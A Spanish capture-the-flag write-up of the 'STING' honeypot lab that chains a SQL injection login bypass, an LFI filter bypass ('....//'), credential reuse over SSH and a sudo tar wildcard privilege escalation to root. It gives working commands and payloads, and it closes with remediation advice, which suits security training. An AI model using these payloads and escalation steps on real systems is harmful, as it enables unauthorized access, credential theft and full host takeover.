# STING — Auditoría de seguridad y explotación

**Analista:** chifay  
**Objetivo:** `172.17.0.2`  
**Dificultad:** Insane (Whoami-Labs)  
**Resultado:** Compromiso total del host y captura de la flag final.

> **Versión pública:** las credenciales, los hashes y el contenido de la flag han sido redactados en el texto y difuminados en las capturas. Solo se muestra el prefijo `H0N3YTR4P` de la flag.

---

## 1. Resumen ejecutivo

STING expone varios puertos, pero la mayoría son señuelos implementados con `netcat`. El servicio real es una aplicación PHP/Apache en los puertos **80** y **8080**, más un SSH real en el puerto **31337**.

Cadena de explotación:

1. **SQL injection** en el login → bypass de autenticación y volcado de `sting_db`.
2. **LFI** en `logs.php` → bypass del filtro con `....//` → lectura de archivos internos.
3. **Credenciales reutilizadas** → acceso SSH como `beekeeper` al puerto `31337`.
4. **Abuso de comodines en `tar` con sudo** → bash SUID → root.
5. Lectura de la flag real en `/var/log/mysql/.hidden/.system_check`.

**Flag (contenido redactado):**

```
H0N3YTR4P{REDACTED}
```

---

## 2. Reconocimiento

```bash
nmap -Pn -p- --min-rate 3000 -T4 172.17.0.2
nmap -Pn -sV -p21,22,80,1433,8080,9000,27017,31337 172.17.0.2
```





| Puerto | Servicio aparente | Estado real |
|---:|---|---|
| 21/tcp | FTP | Señuelo (`netcat`) |
| 22/tcp | SSH OpenSSH 7.4 | Señuelo (`netcat`) |
| 80/tcp | HTTP Apache 2.4.41 | **Aplicación real** |
| 1433/tcp | MSSQL | Señuelo |
| 8080/tcp | HTTP Apache 2.4.41 | **Aplicación real** |
| 9000/tcp | HTTP | Señuelo |
| 27017/tcp | MongoDB | Señuelo |
| 31337/tcp | SSH OpenSSH 8.2p1 | **SSH real** |

El puerto 3306 (MySQL) no está expuesto externamente; MySQL escucha en `127.0.0.1`.

---

## 3. SQL injection

El login ejecuta una consulta vulnerable:

```php
$username = $_POST['username'];
$password = md5($_POST['password']);

$query = "SELECT * FROM users WHERE username='$username' AND password='$password'";
```

Bypass de autenticación:

```text
username=admin'-- -
password=x
```

```bash
curl -s -i -c cookies.txt \
  -d "username=admin'-- -&password=x" \
  http://172.17.0.2/ | head -12
```



sqlmap confirma una inyección **time-based blind** en `username`:

```bash
sqlmap -u "http://172.17.0.2/" \
  --data="username=admin&password=x" \
  -p username --batch --dbs
```



Para acelerar el volcado se usó un oráculo booleano basado en el código de respuesta (`302` = verdadero, `200` = falso) y búsqueda binaria:

```bash
python3 exploits/sqli_extract.py \
  "SELECT GROUP_CONCAT(id,0x3a,username,0x3a,password,0x3a,role,0x3a,access_path SEPARATOR 0x0a) FROM users"
```



La tabla `users` contiene las columnas `id`, `username`, `password`, `role` y `access_path`. Los hashes y las contraseñas en texto plano fueron redactados; la columna `access_path` apunta a rutas internas interesantes para la LFI.

---

## 4. LFI y bypass del filtro

`logs.php` permite leer archivos con `file_get_contents`, bloquea rutas absolutas y elimina `../` con `str_replace`:

```php
if ($file[0] === '/') {
    $error = "Absolute paths are not allowed.";
} else {
    $file = str_replace('../', '', $file);
    if (file_exists($file)) {
        $file_content = htmlspecialchars(file_get_contents($file));
    }
}
```

El filtro no es recursivo: `....//` se transforma en `../`, por lo que `....//....//....//etc/passwd` equivale a `../../../etc/passwd`.

```bash
# Bloqueado
curl -s -b cookies.txt -G \
  --data-urlencode "file=/etc/passwd" \
  http://172.17.0.2/logs.php

# Bypass
curl -s -b cookies.txt -G \
  --data-urlencode "file=....//....//....//etc/passwd" \
  http://172.17.0.2/logs.php
```



La LFI permite leer el código fuente de `config.php` y la configuración interna del servicio SSH:

```bash
curl -s -b cookies.txt -G \
  --data-urlencode "file=config.php" \
  http://172.17.0.2/logs.php | grep -E 'apiEndpoint|apiKey'

curl -s -b cookies.txt -G \
  --data-urlencode "file=....//....//....//opt/honeypot/config/ssh_backup.conf" \
  http://172.17.0.2/logs.php
```



Hallazgos (valores redactados):

- `apiKey = "[REDACTED]"` en `config.php`.
- `ssh_backup.conf` revela `port=31337` y `user=beekeeper`.
- La `apiKey` se reutiliza como contraseña del sistema para `beekeeper`.

---

## 5. Acceso SSH

```bash
sshpass -p '[REDACTED]' ssh -o StrictHostKeyChecking=no \
  -p 31337 beekeeper@172.17.0.2
```



```text
uid=1000(beekeeper) gid=1000(beekeeper) groups=1000(beekeeper)
sting

User beekeeper may run the following commands on sting:
    (root) NOPASSWD: /bin/tar
```

---

## 6. Escalada de privilegios: comodines en tar

Condiciones:

- `beekeeper` puede ejecutar `/bin/tar` como `root` sin contraseña.
- `/opt/backup` es escribible por todos.
- GNU tar interpreta como opciones los nombres de archivo que comienzan con `--` al expandir `*`.

```bash
cd /opt/backup

cat > pwn.sh <<'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
chmod +x pwn.sh

touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh pwn.sh'

sudo /bin/tar -czf /tmp/backup.tar.gz *
```



Al expandirse `*`, tar recibe las opciones `--checkpoint-action=exec=sh pwn.sh` y `--checkpoint=1`, ejecutando el script como `root`. El resultado es `/tmp/rootbash` con bit SUID.

---

## 7. Flag

```bash
/tmp/rootbash -p -c 'id; cat /var/log/mysql/.hidden/.system_check'
```



```text
uid=1000(beekeeper) gid=1000(beekeeper) euid=0(root) groups=1000(beekeeper)
H0N3YTR4P{REDACTED}
```

La flag canónica se validó en la plataforma; su contenido se omite en esta versión pública.

### 7.1 Validación en la plataforma



```text
LAB: STING
DIFICULTAD: insano (8 puntos)
IP del laboratorio: 172.17.0.2
Flag: H0N3YTR4P{REDACTED}
¡Felicidades! Has evadido el honeypot.
```

---

## 8. Hallazgos y remediación

| # | Hallazgo | Severidad | Impacto |
|---:|---|---|---|
| 1 | SQL injection en el login | Crítica | Bypass de autenticación y volcado de la BD |
| 2 | MD5 y contraseñas débiles | Alta | Hashes crackeables y reutilización |
| 3 | LFI en `logs.php` con bypass de filtro | Alta | Lectura arbitraria de archivos y código fuente |
| 4 | Secretos en código fuente y reutilización de API key | Crítica | Acceso SSH como `beekeeper` |
| 5 | SSH con contraseña en puerto no estándar | Media | Superficie de fuerza bruta |
| 6 | `sudo NOPASSWD: /bin/tar` + directorio escribible | Crítica | Escalada a root |
| 7 | Software desactualizado (Ubuntu 20.04, OpenSSH 8.2p1, Apache 2.4.41) | Media | Vulnerabilidades conocidas |

Recomendaciones:

1. Consultas preparadas y `password_hash()`/`password_verify()`.
2. Lista blanca de archivos y validación con `realpath()` para la LFI.
3. No almacenar secretos en el código; usar variables de entorno o un gestor de secretos y rotar credenciales.
4. Deshabilitar `PasswordAuthentication`, usar claves SSH, limitar por IP y aplicar `fail2ban`.
5. Eliminar la regla `NOPASSWD` para `tar`; evitar `*` en comandos ejecutados como root y usar `--` antes de la lista de archivos.
6. Actualizar el sistema operativo y los servicios expuestos.

---

## 9. Evidencias públicas

Capturas (secretos difuminados):

| Archivo | Contenido |
|---|---|
| `screenshots/01_nmap_allports.png` | Escaneo completo de puertos |
| `screenshots/02_nmap_services.png` | Detección de versiones y señuelos |
| `screenshots/03_web_sqli_login.png` | Bypass de login con SQLi |
| `screenshots/04_sqlmap_dbs.png` | Enumeración de bases de datos |
| `screenshots/05_sqli_users_dump.png` | Tabla `users` con hashes difuminados |
| `screenshots/06_lfi_passwd_bypass.png` | Bloqueo de rutas absolutas y bypass |
| `screenshots/07_lfi_ssh_config.png` | Configuración interna con secretos difuminados |
| `screenshots/08_ssh_login.png` | Acceso SSH y `sudo -l` |
| `screenshots/09_tar_wildcard_privesc.png` | Abuso de comodines en `tar` |
| `screenshots/10_root_flag.png` | Flag con el contenido difuminado |
| `screenshots/11_flag_validation.png` | Validación de la flag con el contenido difuminado |

Scripts:

- `exploits/sqli_extract.py`
- `exploits/tar_wildcard.sh`

> Las carpetas `recon/` y `loot/` no se publican porque contienen credenciales, hashes y salidas completas con secretos.

---

**Fin del informe.**
